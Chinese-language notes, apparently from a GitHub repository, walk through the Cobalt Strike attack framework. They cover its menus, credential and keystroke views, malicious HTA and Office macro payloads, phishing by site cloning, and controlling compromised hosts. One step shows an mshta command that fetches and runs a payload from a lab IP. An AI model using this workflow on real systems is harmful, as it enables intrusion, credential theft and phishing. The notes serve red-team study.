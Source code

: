 ### Cobalt Strike菜单
- `New Connection`: 新建连接, 支持连接多服务端
- `Preferences`: 设置CS界面, 控制台以及输出报告样式, TeamServer连接记录
- `Visualization`: 主要展示输出结果的形式
- `VPN Interfaces`: 设置VPN接口
- `Listeners`: 创建一个Listener
- `Script Manager`: 脚本管理
- `Close`: 退出连接

### View菜单
- `Applications`: 显示目标主机的应用信息, 浏览器版本信息等
- `Credentials`: 显示所有以获取的目标主机的凭证, 如使用hashdump, Mimikats获取到的密码凭证信息
- `Downloads`: 查看已下载文件
- `Event Log`: 主机上线记录以及团队协作聊天记录
- `Keystrokes`: 查看键盘记录结果
- `Proxy Pivots`: 查看代理模块
- `Screenshots`: 查看所有屏幕截图
- `Script Console`: 脚本控制台, 加载第三方脚本以增强功能
- `Targets`: 显示所有目标主机
- `Web Log`: 所有访问Web服务的日志记录

### 攻击Attacks
- `Packages`:
	- *HTML Application* 生成.hta HTML应用程序
	- *MS Office Macro* 生成恶意宏放入office文件
	- *Payload Generator* 生成各种语言版本的payload
	- *Windows Executable* 可执行文件 默认x86, x64可选
	- *Windows Executable(S)* stageless生成全功能被控端(无阶段木马)
- `Web Drive-by`:
	- *Manage* 管理当前Team Server开启的所有web服务, 
	- *Clone Site* 克隆某网站, 可以记录受害者提交的信息, 通过克隆的网站实现钓鱼
	- *Host File* 在Team Server的某端口提供Web以供下载某文件, 可以控制MIME信息
	- *Scripted Web Delivery* 为payload提供web服务以便于下载和执行
	- *System Profilter* 用来获取系统信息:系统版本, Flash版本, 浏览器版本等
- `Spear Phish`: 邮件钓鱼

#### VBScript脚本基础
https://www.runoob.com/vbscript/vbscript-tutorial.html

#### HTML Application
1. 生成 *.hta文件* (Beacon HTTP): 生成一个payload, 有三种执行模式可选: 
	- *Executable*: 以十六进制的方式内嵌一个EXE到HTA中, 运行时会把exe释放到磁盘然后创建进程运行
	- *Powershell*: HTA调用`powershell.exe`执行payload
	- *VBA*: 通过调用`COM组件`执行payload (目标主机需有Office的`Excel.Application`组件) https://blog.csdn.net/weixin_45797022/article/details/105400270
2. 提供端口下载文件(Host File): 为server设置一个端口, 供靶机下载hta文件, URI路径可以任意设置如 `http://<IP>:<PORT>/<PATH>/<file>.ext`
3. 目标执行远程命令: 端口设置后会生成一个地址, 在靶机(win)用`mshta`命令执行 `mshta http://192.168.81.172:801/download/file.ext`
4. 目标以任何形式运行了payload, 靶机上线
##### 操控目标机器 (Windows)
- 当有目标主机以任何方式运行了生成的被控端, 出现在主机列表, 选中要操作的目标主机, 右键interact进入交互命令界面, 在此Beacon Commands对目标主机执行各种操作
	- 设置sleep: 设置每次执行命令的时间间隔, 默认60, 可以设为0
	- 执行shell命令 shell ipconfig
	- help
- 文件管理: 右键Explore->File Browser
	- "List Drivers" 列出所有盘符
	- 右键文件Download, 在视图->文件下载- >SyncFiles下载并取出文件
- 远程桌面: 右键Explore->Desktop
- 任务管理器: 右键Explore->Process List, 列出所有目标机上的进程
- 屏幕截图: 右键Explore->screenshot, 在视图->屏幕截图中下载并取出图片
